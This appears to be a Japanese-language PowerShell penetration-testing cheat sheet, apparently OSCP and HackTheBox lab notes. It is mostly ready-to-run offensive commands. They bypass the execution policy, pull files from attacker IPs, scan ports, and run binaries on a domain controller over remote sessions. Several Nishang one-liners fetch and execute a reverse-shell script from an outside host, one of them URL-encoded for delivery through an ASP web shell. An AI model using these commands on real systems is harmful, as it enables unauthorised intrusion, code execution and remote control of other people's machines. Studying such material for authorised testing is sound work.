



# PowerShell

[toc]

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```


### ファイル転送

```powershell
powershell -NoProfile -ExecutionPolicy unrestricted　-c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```


### ダウンロードせずに実行する場合

ps1の末尾に実行したいコマンドを記載して実行する。nishangのリバースシェルなど

※AVに検知されるので画像


### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。




### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。



* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```


### ポートスキャン

```
for($i=1; $i -le 140; $i++){
	Test-NetConnection 172.50.3.1 -Port $i
}
```


### リモートホスト操作

* ホスト名の確認

```cmd
nslookup
> set type=all
> _ldap._tcp.dc._msdcs.sandbox.local

_ldap._tcp.dc._msdcs.sandbox.local      SRV service location:
          priority       = 0
          weight         = 100
          port           = 389
          svr hostname   = SANDBOXDC.sandbox.local
```

* セッションを作成する

```powershell
$dcsesh = New-PSSession -Computer SANDBOXDC
```

* コマンド実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
  ```

* ファイルをコピーする

  ```powershell
  Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
  ```

* ファイルを実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}
  ```


https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/

### Nishang(Invoke-PowerShellTcp.ps1)

```bash
┌──(kali㉿kali)-[~/Documents/tools/nishang/Shells]
└─$ cp Invoke-PowerShellTcp.ps1 ~/Documents/HTB/Conceal 
```

##### ps1内で実行コマンドを書く場合



```
"iex(new-object net.webclient).downloadstring('http://192.168.119.133:8080/Invoke-PowerShellTcp.ps1')"
```

##### 実行も一緒にする場合

```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
```

* エンコードバージョン

```
http://10.129.33.253/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.75:8000/Invoke-PowerShellTcp.ps1%27)
```

